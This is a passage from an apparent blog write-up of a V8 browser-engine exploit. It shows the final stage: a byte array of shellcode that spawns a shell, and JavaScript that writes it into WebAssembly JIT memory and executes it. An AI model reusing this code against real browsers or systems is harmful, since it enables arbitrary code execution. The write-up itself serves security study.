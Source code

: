 <br><br><br>



Now, finally, the previously declared `let shellcode = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5];
`

The shellcode part

<br><br><br>

```js

// execute shellcode
let view = new DataView(buf);
for (let i = 0; i < shellcode.length; i++) {
    view.setUint8(i, shellcode[i]);  // copy shellcode in rwx memory region
}
sh();  // execute
```

<br><br><br>


Using DataView, write shellcode in the buf buffer pointing to the rwx area as the backing store.  <br>
Afterwards, when we run the JIT codes using the sh() function that was exported when writing the wasm part, we 
The shellcode written in the JIT area is executed.

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(19).png)

<br><br><br>

![시연영상](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/시연영상_HQ.gif)

<br><br><br>
